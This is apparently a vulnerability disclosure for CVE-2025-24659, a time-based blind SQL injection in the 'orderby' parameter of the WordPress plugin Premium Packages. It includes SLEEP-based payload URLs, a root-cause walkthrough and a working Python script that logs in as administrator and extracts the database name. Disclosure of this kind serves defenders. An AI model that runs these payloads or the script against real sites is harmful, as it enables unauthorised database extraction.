






# CVE-2025-24659

## 1️⃣ Component type

WordPress plugin

## 2️⃣ Component details

`Component name` Premium Packages – Sell Digital Products Securely

`Vulnerable version` <= 5.9.6

`Component slug` wpdm-premium-packages

`Component link` [https://wordpress.org/plugins/wpdm-premium-packages/](https://wordpress.org/plugins/wpdm-premium-packages/)

## 3️⃣ OWASP 2017: TOP 10

`Vulnerability class` A3: Injection

`Vulnerability type` SQL Injection

## 4️⃣ Pre-requisite

Administrator

## 5️⃣ **Vulnerability details**

### 👉 **Short description**

A SQL Injection vulnerability exists in versions 5.9.6 and below of the Premium Packages - Sell Digital Products Securely plugin (hereafter referred to as Premium Packages plugin). This occurs due to insufficient escaping of the URL parameter `orderby` when viewing the order list in the plugin dashboard's order menu (`/wp-admin/edit.php?post_type=wpdmpro&page=orders`).

As a result, an attacker with administrator privileges can exploit this vulnerability to access all information stored in the target site's database.

Furthermore, while this SQL Injection vulnerability does not allow direct data retrieval from the response data, information can be extracted using Time-Based Blind SQL Injection techniques that leverage the difference in response times based on true/false conditions in SQL queries.

### 👉 **How to reproduce (PoC)**

1. Log in as an administrator to a WordPress site where the Premium Packages plugin is installed and activated.
    
    > Since the Premium Packages plugin is an addon for the Download Manager plugin (https://wordpress.org/plugins/download-manager/), the Download Manager plugin must also be installed and activated.
    > 
2. After accessing the URL below, the SQL query condition (`1=1`) will always be true, causing the page to display after 5 seconds due to the `SLEEP(5)` function.

```
http://localhost:8080/wp-admin/edit.php?post_type=wpdmpro&page=orders&orderby=1,(IF(1=1,(SLEEP(5)),0))
```



3. On the other hand, when accessing the URL below, since the SQL query condition (`1=2`) is always false, the page displays immediately.

```
http://localhost:8080/wp-admin/edit.php?post_type=wpdmpro&page=orders&orderby=1,(IF(1=2,(SLEEP(5)),0))
```



### 👉 **Additional information (optional)**

### [Root Cause of Vulnerability]

When requesting the order list dashboard of the Premium Packages plugin, the file `/wp-content/plugins/wpdm-premium-packages/includes/menus/templates/orders/list-orders.php` is executed.

At this point, the value of the URL parameter `orderby` is assigned to the variable `$orderby` without proper escaping. Subsequently, the variable `$orderby` is passed to the variable `$qry` and completes the order by clause in the SQL query.



Then, the variable `$qry` is passed as an argument to the functions `totalOrders` and `GetAllOrders`.

These functions are defined in the file `/wp-content/plugins/wpdm-premium-packages/includes/libs/Order.php`, and the received argument value is directly used in database queries.



Therefore, since the value of the URL parameter `orderby` is used directly in database queries without escaping, a SQL Injection vulnerability occurs.

### [PoC Code Implementation and Execution]

1. Open the PoC code in an editor and enter the WordPress site address and administrator credentials.



2. Then enter the following command to run the PoC code.
    
    > `Required modules` requests
    > 
    
    ```bash
    python poc.py
    ```
    
    
    
## ⭐ PoC Code

```python
import re
import time
import string
import requests

## To set up a proxy, enter the server address below.
PROXY_SERVER = None
proxies = {
    "https": PROXY_SERVER,
    "http": PROXY_SERVER,
}

SLEEP_TIMER = 1

def __login_get_session(login_id, login_pw):
    session = requests.session()
    data = {
        "log": login_id,
        "pwd": login_pw,
        "wp-submit": "Log In",
        "testcookie": 1
    }
    resp = session.post(f"{TARGET}/wp-login.php", data=data, proxies=proxies)
    if True in ["wordpress_logged_in_" in cookie for cookie in resp.cookies.keys()]:
        print(f" |- Successfully logged in with account {login_id}.")
        return session
    else:
        raise Exception(f"[-] Failed to log in.")

def poc_get_db_length(session):
    length = 1
    while True:
        payload = f"1,(IF(LENGTH(DATABASE()) = {length},(SLEEP({SLEEP_TIMER})),0))"
        params = {
            "post_type": "wpdmpro",
            "page": "orders",
            "orderby": payload
        }
        start_time = time.time()
        session.post(f"{TARGET}/wp-admin/edit.php", params=params, proxies=proxies)

        if (time.time() - start_time) < SLEEP_TIMER:
            print(f" |- Database name length is greater than {length}.")
            length += 1
        else:
            print(f" |- Database name length: {length}")
            break

    return length 
    

def poc_get_db_name(session, db_length):
    
    db_name = ""
    for i in range(1, db_length+1):
        for char in string.ascii_letters + string.digits:
            payload = f"1,(IF(SUBSTR(DATABASE(),{i},1)=CHAR({ord(char)}),(SLEEP({SLEEP_TIMER})),0))"
            params = {
                "post_type": "wpdmpro",
                "page": "orders",
                "orderby": payload
            }
            start_time = time.time()
            session.post(f"{TARGET}/wp-admin/edit.php", params=params, proxies=proxies)

            if (time.time() - start_time) > SLEEP_TIMER:
                db_name += char
                print(f" |- Database name: {db_name.ljust(db_length, '*')}")
                break
    
    print(f" |- Successfully extracted the database name: {db_name}")

def poc():
    ####
    ## 1. Log in as administrator
    ####
    print(f"[+] Logging in with administrator account.")
    print(f" |- Account: {ADMIN_ID}, Password: {ADMIN_PW}")
    admin_session = __login_get_session(ADMIN_ID, ADMIN_PW)
    admin_session.get(f"{TARGET}/wp-admin/", proxies=proxies)
    
    ###
    ## 2. Retrieve database name length
    ###
    print(f"[+] Retrieving database name length.")
    db_length = poc_get_db_length(admin_session)

    ###
    ## 3. Retrieve database name
    ###
    print(f"[+] Retrieving database name.")
    poc_get_db_name(admin_session, db_length)

if __name__ == "__main__":

    ## WordPress Target
    TARGET = "http://localhost:8080"

    ## Administrator ID/PW
    ADMIN_ID = "admin"
    ADMIN_PW = "admin"

    poc()
```

## 6️⃣ Exploit Demo

[](https://www.youtube.com/watch?v=1SWTrdY9-WM)

## 7️⃣ References

- [https://nvd.nist.gov/vuln/detail/CVE-2025-24659](https://nvd.nist.gov/vuln/detail/CVE-2025-24659)